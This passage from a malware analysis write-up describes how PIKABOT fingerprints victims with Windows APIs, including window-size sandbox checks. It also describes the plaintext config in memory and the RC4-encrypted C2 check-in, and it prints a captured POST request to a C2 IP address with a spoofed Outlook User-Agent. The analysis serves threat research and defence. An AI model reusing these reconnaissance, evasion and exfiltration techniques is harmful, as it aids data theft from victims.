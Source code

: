 The next phase involves collecting victim machine information and placing the data into a custom structure that will then be encrypted and sent out after the initial check-in request. The following actions are used to fingerprint and identify the victim and their network:
 - Retrieves the name of the user associated with the PIKABOT thread
 - Retrieves the computer name 
 - Gets processor information
 - Grabs display device information using ```EnumDisplayDevicesW```
 - Retrieves domain controller information using ```DsGetDcNameW```
 - Collects current usage around physical and virtual memory using ```GlobalMemoryStatusEx```
 - Gets the window dimensions using ```GetWindowRect``` used to identify sandbox environments
 - Retrieves Windows OS product information using ```RtlGetVersion```
 - Uses ```CreateToolhelp32Snapshot``` to retrieve process information

![Victim information retrieved such as username, computer name, etc](/assets/images/pikabot-i-choose-you/image23.png)


### Config

One strange development decision in this new version is around the malware configuration. At runtime, the configuration is in plaintext and located in one spot in memory. This does eventually get erased in memory. We believe this will only temporarily last as previous versions protected the configuration and it has become a standard expectation when dealing with prevalent malware families. 

![Configuration in plaintext at core runtime](/assets/images/pikabot-i-choose-you/image4.png)


### Network

PIKABOT performs network communication over HTTPS on non-traditional ports (2967, 2223, etc) using User-Agent ```Microsoft Office/14.0 (Windows NT 6.1; Microsoft Outlook 14.0.7166; Pro)```. The build number of the PIKABOT core module is concatenated together from the config and can be found being passed within the encrypted network requests, the version we analyzed is labeled as ```1.8.32-beta```.

![New PIKABOT version on the stack](/assets/images/pikabot-i-choose-you/image10.png)


On this initial check-in request to the C2 server, PIKABOT registers the bot while sending the previously collected information encrypted with RC4. The RC4 key is sent in this initial packet at offset (```0x10```). As mentioned previously, PIKABOT no longer uses AES in its network communications. 

```
POST https://158.220.80.167:2967/api/admin.teams.settings.setIcon HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.8
User-Agent: Microsoft Office/14.0 (Windows NT 6.1; Microsoft Outlook 14.0.7166; Pro)
Content-Length: 6778
Host: 158.220.80.167:2967

00001a7600001291000016870000000cbed67c4482a40ad2fc20924a06f614a40256fca898d6d2e88eecc638048874a8524d73037ab3b003be6453b7d3971ef2d449e3edf6c04a9b8a97e149a614ebd34843448608687698bae262d662b73bb316692e52e5840c51a0bad86e33c6f8926eb850c2...
```
_PIKABOT initial check-in request_
